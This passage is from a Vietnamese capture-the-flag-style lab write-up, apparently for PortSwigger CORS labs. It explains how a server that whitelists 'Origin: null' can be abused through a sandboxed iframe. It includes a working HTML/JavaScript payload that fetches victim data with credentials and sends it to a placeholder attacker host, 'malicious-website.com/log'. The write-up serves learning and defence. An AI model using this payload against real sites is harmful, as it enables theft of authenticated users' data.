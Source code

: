 ```HTTP
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
``` 

Và response trả về: 
```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Tấn công bằng **Origin: null** do bị whitelist sai — Kẻ tấn công có thể tạo request có Origin: null, và nếu server whitelist null thì sẽ cấp quyền truy cập trái phép từ domain khác.

Khai thác **Origin: null** bằng iframe sandbox — Kẻ tấn công có thể lợi dụng iframe với thuộc tính sandbox để gửi request có **Origin: null**, nhằm vượt qua **CORS** nếu server đã whitelist null.

```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
``` 

### LAB02 

Ở lab này thì được cung cấp 1 account, sau khi login vào bằng `wiener:peter`, sau đó quan sát request và response thì: 

![image](https://hackmd.io/_uploads/rJTe1JXuxl.png)

Mình thấy trong header có `Access-Control-Allow-Credentials: true`, sau đó mình gửi nó sang Repeater để thêm 1 trường `Origin: null`. 

![image](https://hackmd.io/_uploads/B1PV1WXuge.png)

Thì nó trả về `Access-Control-Allow-Origin: null`, thì điều đó có nghĩa ứng dụng chấp nhận CORS là `null`

Từ đây mình khai thác trên exploit server như sau: 

![image](https://hackmd.io/_uploads/S1DLzbXOgg.png)

Điều này cho phép là `allow-scripts` cho phép thực hiện script; `allow-top-navigation` cho phép thay đổi trong tab chính; `allow-forms` cho phép gửi form này. 

Và ko có `allow-same-origin` thì điều này có nghĩa gửi với `Origin: null`

